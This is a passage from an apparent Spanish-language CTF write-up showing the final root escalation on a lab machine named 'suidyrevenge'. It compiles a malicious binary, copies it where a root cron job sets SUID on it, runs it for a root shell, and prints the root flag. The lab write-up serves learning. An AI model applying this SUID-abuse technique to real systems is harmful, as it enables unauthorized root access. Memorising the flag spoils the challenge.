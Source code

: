 Ahora que hemos creado ese `binario` malicioso, haremos lo siguiente:

```shell
cd /tmp
gcc /tmp/payload.c -o suidyyyyy
cp suidyyyyy /home/suidy/suidyyyyy
```

Ahora tendremos que esperar a que se establezca los permisos `SUID` de nuevo, ya que por detras hay una tarea programada que establece `root` a dicho binario permisos `SUID`.

```shell
ls -la /home/suidy/suidyyyyy
```

Info:

```
-rwsrws--- 1 root theuser 16712 May 16 15:03 /home/suidy/suidyyyyy
```

Veremos que ha funcionado, por lo que haremos lo siguiente:

```shell
/home/suidy/suidyyyyy
```

Info:

```
root@suidyrevenge:/tmp# whoami
root
```

Por lo que vemos ya seremos `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
                                                                                
                                   .     **                                     
                                *           *.                                  
                                              ,*                                
                                                 *,                             
                         ,                         ,*                           
                      .,                              *,                        
                    /                                    *                      
                 ,*                                        *,                   
               /.                                            .*.                
             *                                                  **              
             ,*                                               ,*                
                **                                          *.                  
                   **                                    **.                    
                     ,*                                **                       
                        *,                          ,*                          
                           *                      **                            
                             *,                .*                               
                                *.           **                                 
                                  **      ,*,                                   
                                     ** *,                                      
                                                                                
                                                                                
HMVvoilarootlala
```
